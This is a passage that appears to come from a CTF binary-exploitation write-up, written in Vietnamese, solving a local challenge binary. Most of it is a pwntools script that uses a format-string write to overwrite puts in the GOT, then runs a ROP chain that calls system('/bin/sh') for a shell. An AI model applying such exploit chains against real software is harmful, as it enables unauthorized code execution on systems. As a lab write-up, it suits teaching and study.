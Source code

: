 OKe thoi pop 5 stack, và đứa pop_rdi vào , binsh, system luôn 

For sure, yah we done :3

### Exploit

```python
from pwn import *

r = process("./vuln")
gdb.attach(r, api=True)

pop_rdi_ret = 0x0000000000401323
pop4_ret = 0x000000000040131c
pop5_ret = 0x000000000040131b
ret = 0x000000000040101a
system = 0x4010b0
binsh = 0x404080
puts_got = 0x404018

payload = b"%14$n%26739p%11$n%4172456p%13$n-" + p64(pop_rdi_ret) + p64(binsh) + p64(system) + p64(puts_got) + p64(puts_got + 4)

r.sendline(payload)
r.interactive()

```